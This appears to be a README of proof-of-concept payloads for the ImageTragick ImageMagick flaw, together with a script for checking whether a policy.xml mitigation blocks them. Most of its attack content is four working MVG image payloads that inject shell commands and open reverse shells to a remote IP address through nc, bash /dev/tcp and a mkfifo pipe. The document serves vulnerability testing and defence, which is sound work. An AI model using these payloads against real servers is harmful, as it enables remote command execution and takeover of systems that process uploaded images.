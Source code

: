 # ImageTragick POCs

## RCE_POC

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|mknod /tmp/backpipe p && nc 121.42.56.8 8989 0</tmp/backpipe | /bin/bash 1>/tmp/backpipe")'
pop graphic-context
```

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|bash -i >& /dev/tcp/121.42.56.8/8989 0>&1")'
pop graphic-context
```
```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/someimage.jpg"|nc -e /bin/sh 127.0.0.1 "4544)'
pop grahic-context

```
```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'https://127.0.0.1/x.php?x=` rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc x.x.x.x 8989 >/tmp/f `'
pop graphic-context
```

## How To Use
```
git clone https://github.com/ImageTragick/PoCs.git
cd PoCs
./test.sh
```

To test a `policy.xml` file place it in the script directory and run `test.sh`.

## Safe Output
```
user@host:~/code/PoCs$ ./test.sh 
testing read
SAFE

testing delete
SAFE

testing http with local port: 38663
SAFE

testing http with nonce: a7DyBeV7
SAFE

testing rce1
SAFE

testing rce2
SAFE

testing MSL
SAFE
```

## Unsafe Output
```
user@host:~/code/PoCs$ ./test.sh 
testing read
UNSAFE

testing delete
UNSAFE

testing http with local port: 44755
UNSAFE

testing http with nonce: a7DvBer2
UNSAFE

testing rce1
UNSAFE

testing rce2
UNSAFE

testing MSL
UNSAFE
```
